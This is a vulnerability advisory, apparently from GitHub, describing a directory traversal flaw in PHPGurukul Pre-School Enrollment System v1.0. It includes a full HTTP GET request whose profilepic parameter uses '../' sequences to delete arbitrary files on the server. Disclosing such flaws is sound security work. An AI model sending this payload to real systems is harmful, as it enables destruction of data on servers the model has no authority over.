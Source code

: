# PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by a directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with profilepic in the manage-teachers.php file   
   ![1](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100513.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100551.png)
      
   Find the vulnerable function in the manage-teachers.php article, manage-teachers-delete
  
   ![3](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100037.png)
  
   Intercept the data packet and find the problematic parameter profilepic
   
   ![4](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100051.png)

   Transformed into attack payload  

    GET /School/preschool/admin/manage-teachers.php?action=delete&&tid=1&&profilepic=../../../../../../aaa.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate, br, zstd
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/School/preschool/admin/manage-teachers.php
    Accept-Language: zh-CN,zh;q=0.9
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
    Cookie: PHPSESSID=7t2liii8fu23b3cjsll5qi6q8t


   Create aaa.txt test file in the local D drive   
       ![5](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100159.png)   

   Send payload, aaa.txt file has been deleted   
   ![6](https://github.com/baixiaobi/TST/blob/image/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250210100443.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
